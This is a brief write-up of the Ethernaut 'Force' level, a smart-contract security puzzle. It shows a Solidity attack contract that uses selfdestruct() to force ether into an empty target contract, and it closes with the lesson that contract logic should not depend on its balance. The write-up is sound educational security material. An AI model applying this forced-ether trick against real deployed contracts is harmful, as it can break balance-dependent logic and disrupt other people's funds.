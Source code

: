 ## The hack

In this Ethernaut level, the given contract is completely empty. So how can we send any ether to it? The trick is to use the (soon to be deprecated) `selfdestruct()`, which is one way to force send ether to a contract.

When self-destructing itself, the contract must send any remaining ether to another address. This is how we can easily solve this level. We simply need to deploy a contract that self-destructs and sends its ether to the vulnerable contract.

## Solution

Write and deploy a contract that takes the address of the vulnerable contract and calls's `selfdestruct()` on itself, forwarding its ether balance to the target.

```javascript

contract Attack {
     Force public force;

     constructor(Force _force) payable{
          force = _force;
     }

     function sendMoney() public payable {
          selfdestruct(payable(address(force)));
     }

     receive() external payable{
          sendMoney();
     }

}
```

## Takeaway

- `selfdestruct()` is a way to force send ether to a contract.
- Never rely on a contract's balance to implement sensitive logic.
